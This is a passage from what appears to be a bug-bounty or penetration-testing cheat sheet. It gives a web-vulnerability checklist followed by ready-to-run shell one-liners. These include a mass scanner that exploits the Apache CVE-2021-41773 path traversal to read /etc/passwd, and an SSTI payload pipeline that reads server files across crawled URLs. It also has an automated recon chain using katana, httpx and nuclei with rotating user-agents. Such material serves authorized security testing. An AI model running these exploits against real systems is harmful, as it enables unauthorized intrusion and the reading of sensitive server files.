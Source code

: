 18. Perform `Directory Busting`
19. Check for `HTTP Request Smuggling`
20. Check for `Open Redirect` through `WaybackUrls`
21. Check for `Social-Signon Bypass`
22. Check for `state parameter` in `Social Sign-In` & check whether it's possible to cause `Denial of Service (DoS)` using `Multiple Cookie Injection`
23. Check for `File Upload`: CSRF, XSS, SSRF, RCE, LFI, XXE
24. Check for `Buffer Overflow`

## Path Traversal Zero-Day in Apache HTTP Server (CVE-2021-41773)

```console
$ cat <FILE>.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

## Server-Side Template Injection (SSTI) at Scale

```console
$ echo "<DOMAIN>" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/hostname').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

## Target Enrichment

### Prerequisites

#### Katana

```console
$ CGO_ENABLED=1 go install github.com/projectdiscovery/katana/cmd/katana@latest
```

#### httpx

```console
$ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
```

#### Nuclei

```console
$ go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
```

#### Execution

```console
$ katana -u <URL> -hl -jc --no-sandbox -c 1 -p 1 -rd 3 -rl 5 -H "User-Agent: $(shuf -n 1 -e 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)' 'Mozilla/5.0 (x11; Linux x86_64)' 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)')" | httpx -silent -status-code -follow-redirects -tls-probe -random-agent -fr | nuclei -headless -sresp -rate-limit 25 -concurrency 20 -severity critical,high,medium -tags login,auth,exposure,api -markdown-export output/ -H "User-Agent: $(shuf -n 1 -e 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)' 'Mozilla/5.0 (x11; Linux x86_64)' 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)')" -tlsi -stats
```
